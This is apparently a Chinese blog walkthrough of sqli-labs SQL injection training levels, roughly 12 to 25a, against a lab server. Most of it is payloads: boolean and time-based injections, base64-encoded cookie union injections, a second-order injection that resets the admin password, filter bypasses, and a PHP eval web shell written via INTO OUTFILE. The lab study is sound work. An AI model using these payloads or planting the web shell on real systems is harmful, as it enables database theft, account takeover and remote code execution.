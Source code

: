 ````select “<?php @eval($_POST[‘giantbranch’]);?>” into outfile “XXX\test.php” ````当这里要获取到网站的在系统中的具体路径（绝对路径）
原来的查询语句大致是这个样子的：
````select * from tablename where username=($_[‘username’]) and password=($_[‘password’])````
所以post的数据要改成 uname=a”) or 1 %23&passwd= 而且题目也提示是双引号了

### 第十三题
这个题目吧，我觉得幸亏用回显报错，要不然这么菜的我肯定是正不出来的，，，
原来的语句：
````select * from tablename where username=$_[‘username’] and password=($_[‘password’])````
post的数据：uname=a or 1&passwd=a’) or 1 %23

### 第十四题
uname=a’&passwd=a” or “1”=”1 挺简单滴

### 第十五题
uname=a’ or ‘1’=’1&passwd=a’ or ‘1’=’1

### 第十六题
uname=a” or (select if(1=2,sleep(5),sleep(0))) or “1”=”1&passwd=a” or “1”=”1

### 十八 十九 二十 在各个头地方注入，，，提示很全了

嗯 再接再厉，明天继续

(select if(1=1,1,2))

q=Banana’)%20and%201=1%20and%20(‘1’=’1

## 第二天 21-38
###第20题
http://202.206.96.155:8081/sqli-labs/Less-20/index.php
这个真是纠结了半天，为什么没有回显呢 我的cookie也没有呢，，，原来还要登陆一下子才好
然后将cookie的值修改成要查询的内容就好了 还是原来的order by 和union select，，，
cookie的值：’ union select version(),database(),user()#

### 第21题
这次还是一个cookie的注入，和20题是一样的，不同之处在于将cookie的值进行base64
编码了，我们只需将我们的payload进行base64 编码即可，还有一点要注意的是 至此多了一个 括号的闭合 给出payload ‘) union select database(),version(),version() # 将其编码即可

### 第二十二题
给出payload：” union select database(),version(),version() #
也是cookie的注入 记得base64 编码

### 第二十三题
http://202.206.96.155:8081/sqli-labs/Less-23/?id=1’ and 1=(select if(1=1,2,1)) and ‘1’=’1 额 这不是part 1的做法麽，难道这一套是做法通用的吗，，，，

### 第二十四题
这个题比较有意思 本关为二次排序注入的示范例。二次排序注入也成为存储型的注入，就是将可能导致sql注入的字符先存入到数据库中，当再次调用这个恶意构造的字符时，就可以触发sql注入。
推荐看一下源码，尤其是login 与 creat页面，我在这里浪费了不少时间
其实sql注入点在修改页面，而我一心想的是哪个用户名的回显是不是可以造成注入，，，
先注册用户名为 admin’ # 然后登陆 修改密码修改密码时Sql语句变为
````UPDATE users SET passwd=”New_Pass” WHERE username =’ admin’ # ‘ AND password=’ ````，也就是执行了````UPDATE users SET passwd=”New_Pass” WHERE username =’ admin’````
然后就可以用admin登陆了
话说孰能绕过mysql_real_escape_string记得教教我噻

### 第二十五题
and or 被过滤了 有两种绕过方式 可用union
http://202.206.96.155:8081/sqli-labs/Less-25/?id=?id=1&#8242; oorr(anandd) ‘1’=’1
http://202.206.96.155:8081/sqli-labs/Less-25/?id=?id=1&#8242; || ‘1’=’1

### 第二十五a题
http://202.206.96.155:8081/sqli-labs/Less-25a/?id=1 anandd 1=2
````